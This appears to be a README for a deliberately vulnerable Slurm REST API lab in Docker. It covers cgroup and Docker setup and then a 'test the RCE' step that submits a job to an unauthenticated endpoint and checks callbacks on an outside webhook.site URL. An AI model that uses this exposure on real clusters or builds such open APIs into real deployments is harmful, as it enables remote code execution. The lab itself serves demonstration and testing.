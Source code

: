# vulnerable setup
note that this is a smaller version of this docker compose setup: https://gitlab.com/SchedMD/training/docker-scale-out

## configure the OS 
on ubuntu 24.04 install docker and then:
```
sed -e 's@^GRUB_CMDLINE_LINUX=@#GRUB_CMDLINE_LINUX=@' -i /etc/default/grub
echo 'GRUB_CMDLINE_LINUX="systemd.unified_cgroup_hierarchy=1 systemd.legacy_systemd_cgroup_controller=0 cgroup_no_v1=all"' >> /etc/default/grub
update-grub
```
reboot the OS.
Validate the OS doesn't contain hybrid cgroup versions.
```
reboot
# Verify kernel has correct command line options:
grep -o -e systemd.unified_cgroup_hierarchy=. -e systemd.legacy_systemd_cgroup_controller=. /proc/cmdline
# systemd.unified_cgroup_hierarchy=1
# systemd.legacy_systemd_cgroup_controller=0
```
ref: https://slurm.schedmd.com/faq.html#cgroupv2

## configure docker
```
mkdir /etc/docker/
cat << EOFF >> /etc/docker/daemon.json
{
  "exec-opts": [
    "native.cgroupdriver=systemd"
  ],
  "features": {
    "buildkit": true
  },
  "experimental": true,
  "cgroup-parent": "docker.slice",
  "default-cgroupns-mode": "host",
  "storage-driver": "overlay2",
  "experimental": true,
  "ip6tables": true

}
EOFF

cat << EOFF >> /etc/systemd/system/docker.slice
[Unit]
Description=docker slice
Before=slices.target
[Slice]
CPUAccounting=true
MemoryAccounting=true
Delegate=yes
EOFF

mkdir /usr/lib/systemd/system/docker.service.d/
cat << EOFF >> /usr/lib/systemd/system/docker.service.d/local.conf
[Service]
LimitNOFILE=infinity
LimitNPROC=infinity
LimitCORE=infinity
TasksMax=infinity
Delegate=yes
EOFF

```

## setup
```
bash start.sh
```
## setup quick start
```
bash start_quick.sh
```
## test the RCE
```bash
curl -k -vvvv 'http://127.0.0.1:8082/openapi/v3' 
curl -X POST "http://127.0.0.1:8082/slurm/v0.0.39/job/submit" -H "Content-Type: application/json" -d @rest_api_test.json
```
open https://webhook.site/#!/view/7c925655-38c0-461a-b37d-f7aa05f747e4 to see the callback logs.

# secure setup
for testing the safe setup just send the request directly to the REST API server:
```
curl -k -vvvv 'http://10.11.1.6:6820/openapi/v3'
# HTTP/1.1 401 UNAUTHORIZED
```

